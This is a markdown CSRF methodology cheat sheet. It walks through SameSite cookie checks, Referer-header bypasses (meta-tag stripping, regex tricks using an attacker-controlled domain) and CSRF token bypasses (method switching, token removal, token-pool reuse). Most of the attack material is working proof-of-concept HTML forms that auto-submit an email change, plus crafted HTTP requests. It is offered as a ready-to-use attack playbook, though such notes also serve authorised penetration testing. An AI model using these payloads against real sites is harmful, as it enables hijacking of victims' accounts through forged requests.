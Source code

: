 ## CSRF Methodology
<br/>

**General PoC**
```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
<br/>

**Step 1**<br/>
The first thing to check in a CSRF attack is the security headers on the session cookie.
#### `SameSite=Strict` - CSRF Not Possible

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=strict;
```

#### `SameSite=LAX` - CSRF Only Possible on GET Request

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=lax;
```

#### `SameSite=NONE` - CSRF Possible

```html
Set-Cookie: SessionId=CfDJ8MWK4x...; samesite=none;
```

**Step 2**<br/>
Some applications make use of the HTTP Referer header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. The following are possible bypasses for the Referer header based CSRF protection.

1) *Referer Header Removed*<br/>
Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted. We can strip the referer using the following META tag.

```html
<meta name="referrer" content="never">
```

*PoC*
```html
<html>
    <body>
        <meta name="referrer" content="never">
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```

2) *Referer Header Broken Regex*<br/>
Some websites will use regex to check if the website is contained in the referer. This regex could be broken. 

You can try sending the referer with the target website being a subdomain to your website:
```
POST /change-email HTTP/1.1
Host: target.com
Cookie: session=3HTG8OIPW3TKkVhWvgIMN4Ojija8jijN
Referer: https://target.shelled.io/change-email

email=hacked@gmail.com
```

You can try sending the referer with the target website being a query parameter to your website:
```
POST /change-email HTTP/1.1
Host: target.com
Cookie: session=3HTG8OIPW3TKkVhWvgIMN4Ojija8jijN
Referer: https://shelled.io/change-email?target.com

email=hacked@gmail.com
```

> Note: There is a default browser security mechanism that strips query parameters from the referer header. You can override this behavior by making sure that the response containing your exploit has the Referrer-Policy: unsafe-url header set.

*PoC*
```html
<html>
    <body>
        <meta name="referrer-policy" content="unsafe-url">
        <script>
            history.pushState("", "", "/?target.com")
        </script>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
<br/>

**Step 3**<br/>
If the session cookie’s SameSite value is set to none and the referer header is not being used for CSRF protection, then there is probably a CSRF token in place. The following are common CSRF token bypasses.

Request Method
Sometimes the CSRF token is only being validated in a POST request, you should also try to send the request as a GET request.

```
GET /email/change?email=pwned@evil-user.net HTTP/1.1
Host: vulnerable-website.com
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
Remove CSRF Token
Some applications correctly validate the token when it is present but skip the validation if the token is omitted.
```

```
POST /email/change HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 25
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm

email=pwned@evil-user.net~~&csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY~~
```

CSRF Token Tied to User's Session?
Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a global pool of tokens that it has issued and accepts any token that appears in this pool.

```
1. Capture a CSRF attack POST request
2. Send request to repeater
3. Drop the request (dropping the request means the CSRF token will not be used, meaning the token is still in the CSRF token pool)
4. Create a CSRF PoC
5. Use the CSRF token in the repeater tab in the CSRF PoC
```






